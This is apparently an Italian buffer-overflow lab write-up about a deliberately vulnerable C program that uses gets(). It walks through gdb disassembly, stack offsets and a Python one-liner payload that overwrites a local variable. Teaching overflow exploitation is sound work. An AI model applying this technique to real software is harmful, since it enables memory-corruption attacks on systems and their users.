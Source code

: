 # Esercizio 2.1 – Variante dell'Esercizio 2

```c
#include <stdio.h>
#include <stdint.h>

int main(int argc, char* argv[]){
  X topolino;
  X pluto;
  char buf[X];

  topolino = 0;
  pluto = 0;
  gets(buf);

  if (topolino == xXXXXX){
    printf("Ottimo! Hai modificato correttamente la variabile\n");
  }
  else{
    printf("Sbagliato! Topolino vale: 0x%08x\n", topolino);
  }
}
```

---

## Analisi del Codice Assembly

Osservando il binario con:

```
(gdb) disass main
Dump of assembler code for function main:
   0x0804846b <+0>:     lea    0x4(%esp),%ecx
   0x0804846f <+4>:     and    $0xfffffff0,%esp
   0x08048472 <+7>:     pushl  -0x4(%ecx)
   0x08048475 <+10>:    push   %ebp
   0x08048476 <+11>:    mov    %esp,%ebp
   0x08048478 <+13>:    push   %ecx
   0x08048479 <+14>:    sub    $0x34,%esp
   0x0804847c <+17>:    movl   $0x0,-0xc(%ebp)   ; allocazione topolino
   0x08048483 <+24>:    movw   $0x0,-0xe(%ebp)   ; allocazione pluto
   0x08048489 <+30>:    sub    $0xc,%esp
   0x0804848c <+33>:    lea    -0x30(%ebp),%eax  ; allocazione buffer
   0x0804848f <+36>:    push   %eax
   0x08048490 <+37>:    call   0x8048330 <gets@plt>
   0x08048495 <+42>:    add    $0x10,%esp
   0x08048498 <+45>:    cmpl   $0x41414141,-0xc(%ebp)  ; confronto per l'if
   0x0804849f <+52>:    jne    0x80484b3 <main+72>
   0x080484a1 <+54>:    sub    $0xc,%esp
   0x080484a4 <+57>:    push   $0x8048560
   0x080484a9 <+62>:    call   0x8048340 <puts@plt>
   0x080484ae <+67>:    add    $0x10,%esp
   0x080484b1 <+70>:    jmp    0x80484c6 <main+91>
   0x080484b3 <+72>:    sub    $0x8,%esp
   0x080484b6 <+75>:    pushl  -0xc(%ebp)
   0x080484b9 <+78>:    push   $0x8048594
   0x080484be <+83>:    call   0x8048320 <printf@plt>
   0x080484c3 <+88>:    add    $0x10,%esp
   0x080484c6 <+91>:    mov    $0x0,%eax
   0x080484cb <+96>:    mov    -0x4(%ebp),%ecx
   0x080484ce <+99>:    leave
   0x080484cf <+100>:   lea    -0x4(%ecx),%esp
   0x080484d2 <+103>:   ret
```

### Allocazioni nello Stack

1. `topolino` è memorizzato a `-0xc(%ebp)` (4 byte)
2. `pluto` a `-0xe(%ebp)` (2 byte)
3. Il buffer è a `-0x30(%ebp)`, passato poi a `gets()` in `%eax`
4. Il valore di confronto è `0x41414141` (`AAAA` in ASCII)

Per trovare l'**offset**, consideriamo che il buffer inizia a `-0x30(%ebp)` e vogliamo sovrascrivere `topolino` a `-0xc(%ebp)`.

### Breakpoint e Registri

Impostiamo un breakpoint a **main+37** (poco prima della chiamata `gets(buf)`) per leggere i registri:

```
(gdb) b *main+37
Breakpoint 1 at 0x8048490: file esercizio2_1.c, line 12.
(gdb) run
Starting program: /home/tux/Desktop/buffer_overflow/bin/esercizio2_1

Breakpoint 1, 0x08048490 in main (argc=1, argv=0xffffd674) at esercizio2_1.c:12
12              gets(buf);
(gdb) i r
eax            0xffffd598
ebp            0xffffd5c8
...
```

`%eax` = `0xffffd598`  
`%ebp` = `0xffffd5c8`

Quindi l'offset (in byte) dal buffer a `topolino` è:

```
offset = eax - (ebp - 0xc)
        = 0xffffd598 - 0xffffd5c8 + 0xc
        = -36
```

In decimale, corrisponde a **36** byte prima di poter sovrascrivere `topolino`.

### Creazione del Payload

Per impostare `topolino = 0x41414141`, costruiamo un payload di 36 byte + `AAAA`:

```bash
python3 -c 'print("c"*36 + "AAAA")' | ./esercizio2_1
```

Output:

```
Ottimo! Hai modificato correttamente la variabile
```

Così abbiamo sovrascritto `topolino` con il valore desiderato `0x41414141`. L’analisi segue lo stesso principio dell’esercizio 2, ma qui la variabile `topolino` e le dimensioni del buffer differiscono.

